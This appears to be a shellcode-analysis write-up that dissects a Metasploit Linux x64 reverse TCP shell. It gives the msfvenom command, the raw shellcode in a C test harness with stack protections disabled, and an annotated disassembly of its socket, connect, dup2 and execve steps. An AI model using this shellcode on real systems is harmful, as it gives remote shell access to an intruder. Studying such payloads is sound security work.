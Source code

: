 # Reverse Tcp Shell
I created the payload like this:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```
LHOST and LPORT specify the IP and port to connect to

## Testmodule
As I did for the first analysed payload I placed the shellcode into a C programm:
```
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

(*(void(*)()) shellcode)();

```

And compiled it like this:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

## Analysis

1. Create a new socket by socket(AF_INET, SOCK_STREAM, 0)

    ```
    push 0x29   ; SYS_SOCKET
    pop rax     
    cdq         ; Clear RDX
    push   0x2  ; AF_INET
    pop    rdi
    push   0x1  ; SOCK_STREAM
    pop    rsi
    syscall  
    xchg   rdi,rax ; Place returned fd in rdi
    ```

2. Create struct_sockaddr

    ```
    movabs rcx,0x100007f5c110002 ; Struct with ip, port and sin_family. All in one 
    push   rcx
    mov    rsi,rsp ; rsi now points to the struct
    push   0x10 ; Size of struct
    pop    rdx
    push 0x2a ; SYS_CONNECT
    pop rax
    syscall
    ```

3. Dup2 loop 

    ```
    push   0x3 
    pop    rsi
    dec    rsi ; start with stderr (2)
    push   0x21 ; dup2
    pop    rax
    syscall

    loop:

        dec    rsi
        push   0x21 ; dup2
        pop    rax
        syscall
        jne    loop

    ```


4. Execve syscall .

    ```
    push   0x3b # SYS_EXECVE
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f ; rbx has /bin/sh in hex
    push   rbx
    mov    rdi,rsp ; rdi points to /bin/sh
    push   rdx
    push   rdi
    mov    rsi,rsp ; rsi points to a pointer to /bin/sh and works as argv**
    syscall ; execve("/bin/sh", ["/bin/sh"], 0);

    ```
